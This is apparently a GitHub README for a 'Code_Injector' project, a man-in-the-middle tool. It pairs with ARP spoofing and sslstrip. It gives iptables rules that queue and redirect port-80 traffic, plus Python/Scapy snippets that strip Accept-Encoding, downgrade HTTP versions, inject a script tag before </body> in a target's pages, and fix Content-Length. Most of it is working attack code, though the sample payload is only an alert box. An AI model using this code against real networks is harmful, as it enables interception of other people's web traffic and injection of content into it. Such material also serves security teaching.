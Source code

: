 # Code_Injector

## Used Modules

###  netfilterqueue

NetfilterQueue provides access to packets matched by an iptables rule in Linux. Packets so matched can be accepted, dropped, altered, or given a mark. The iptables is the tool to access the linux netfilter firewall, the iptable rule we're gonna set to redirect the flow of packets to a queue to be analyzed.

iptables -P FORWARD ACCEPT<br>
iptables -I INPUT -j NFQUEUE --queue-num 0<br>
iptables -I OUTPUT -j NFQUEUE --queue-num 0<br>

And then all packets that have the destination for the port 80(HTTP)
we're gonna to redirect to the port 10000 which is the sslstrip port(the tool SslStrip is used to bypass HTTPS websites). Remembering tha we can just do this because first we become the MITM using the file which is in the repository Arp_Spoof.

iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000<br>

### Scapy

The module Scapy is used to edit the packets from the queue because with the original format there is no way to edit (for more information go to the repository Arp_Spoof). First of all already the MITM i analyse all the requests and responses, because my iptable rule that i defined i redirected the request that want to go for the port 80 to the port 10000(SslStrip), with this i can see all the requests with the destination 10000.

```python
  if scapy_packet[scapy.TCP].dport == 10000:
```

And using regex rules to access the field "Accept-Encoding" i remove the encoding from the packet, this way is possible to see the information about the packet and change, the same way i replace the field with "HTTP/1.1" fro an earlier version to avoid problems. 
```python
   load = re.sub("Accept-Encoding:.*?\\r\\n", "", load)
   load = load.replace("HTTP/1.1" , "HTTP/1.0")
```

Therefore the problem when the target make the requests is done, now when the progam check a response from the server (originnaly the response would come with the source port 80 but now came from the port 10000 because of my SslStrip tool) it's gonna inject the code in the field "load" that contains the HTML and scripts from the page that the target requested. Looking for a tag </body> that all HTML pages have and replacing with a java script code. 
```python
   elif scapy_packet[scapy.TCP].sport == 10000:
   injection_code = "<script>alert('CODE INJECTOR SUCCSSESFULLY DONE')</script>"
   load = load.replace("</body>", injection_code + "</body>")
```
Other importants details is change the length of the page because when a page is sent to someone it has a length and how it was changed because of the injecting code we have to change the verify if the load have the field content_length and recalculate the length adding the length of the injected code. 
```python
   content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
            if content_length_search and "text/html" in load:
                content_length = content_length_search.group(1)
                new_content_length = int(content_length) + len(injection_code)
                load = load.replace(content_length, str(new_content_length))
```
Lastly but not least how the format of the packet was change to a scapy packet we have to take the packet and turn into a orginal packet.
```python 
   new_packet = set_load(scapy_packet, load)
   packet.set_payload(str(new_packet))
```
This way the progam is runned on the bottom left side are the packets from the Arp_spoof being sent, on the top right side are the code_injector.py showing when requests ad responses are made, the other it's the sslstrip running.

<img src="termInjector.png">

And when my target access some website :-) ...

<img src="codeImage.png">


obs: to clean the iptables:

iptables --flush<br>
iptables --table nat --flush<br>
iptables --delete-chain<br>
iptables --table nat --delete-chain<br>
